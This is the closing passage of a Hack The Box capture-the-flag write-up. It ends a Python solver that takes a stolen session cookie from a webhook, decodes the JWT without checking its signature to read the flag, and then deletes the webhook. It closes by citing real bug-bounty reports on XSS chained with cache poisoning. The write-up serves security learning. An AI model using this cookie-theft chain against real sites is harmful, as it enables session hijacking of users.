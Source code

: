 ```
		break
	time.sleep(5)

print('[+] Received JWT cookie, extracting flag..')
jwtCookie = cookies.split('session=')[1].split(';')[0]
jwtContent = payload = jwt.decode(jwtCookie, options={"verify_signature": False})

print('[*] Flag : %s' % jwtContent['flag'])

print('[~] Cleaning up the webhook\n')
webhook.destroy()
```

Impacts as seen in the bug bounty reports 📝
Do the vulnerabilities we have seen in the challenge have real-world examples? Yes, of course! Here are a few publicly disclosed bug-bounty reports that feature the chaining of XSS with Cache Poisoning:

Web Cache Poisoning leads to Stored XSS

XSS and cache poisoning via upload.twitter.com on ton.twitter.com

Defacement of catalog.data.gov via web cache poisoning to stored DOMXSS

And that's a wrap for the write-up of this challenge! If you want to try this challenge out, it's currently available to play on the main platform of Hack The Box.


